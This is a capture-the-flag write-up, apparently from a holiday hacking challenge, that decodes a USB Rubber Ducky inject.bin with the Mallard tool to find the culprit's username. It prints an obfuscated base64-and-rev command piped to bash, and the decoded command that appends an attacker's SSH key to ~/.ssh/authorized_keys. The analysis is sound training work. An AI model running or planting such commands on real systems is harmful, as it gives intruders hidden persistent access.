 (ch5)=
Rubber Ducky
===
*Evaluate the USB data in /mnt/USBDEVICE/*

First of all, let's see what `/mnt/USBDEVICE` contains:

```Shell
$ ls -l /mnt/USBDEVICE
total 4
-rw-r--r-- 1 root root 2090 Now 30 22:14 inject.bin
```

Oh, look. There is a file called `inject.bin`. Given the context and the special name, that is probably a `Ducky` script. <br>
We could use [**Mallard**](https://github.com/dagonis/Mallard) to decode and view it's contents.
Fortunately, we already have the Mallard script in our home.

```Shell
$ ls -l
total 12
-rwxr-xr-x root root 8802 Nov 30 22:14 mallard.py*
```

Let's use it.

```Shell
$ python mallard.py --file /mnt/USBDEVICE/inject.bin
[...]
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
[...]
```
Mhh.. Seems like someone is trying to execute a `base64` encoded reversed (`rev`) command. We can decode it simply excuting `rev` and `base64 -d` (decode) with the string. <br>
We can copy the entire command from `echo`, but <ins>**we must remove the final instruction, `bash`, or else it will execute!**</ibns>

```Shell
$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys

```

This adds an `SSH` key to the `authorized_keys` file. The troll's username is **ickymcgoop**.
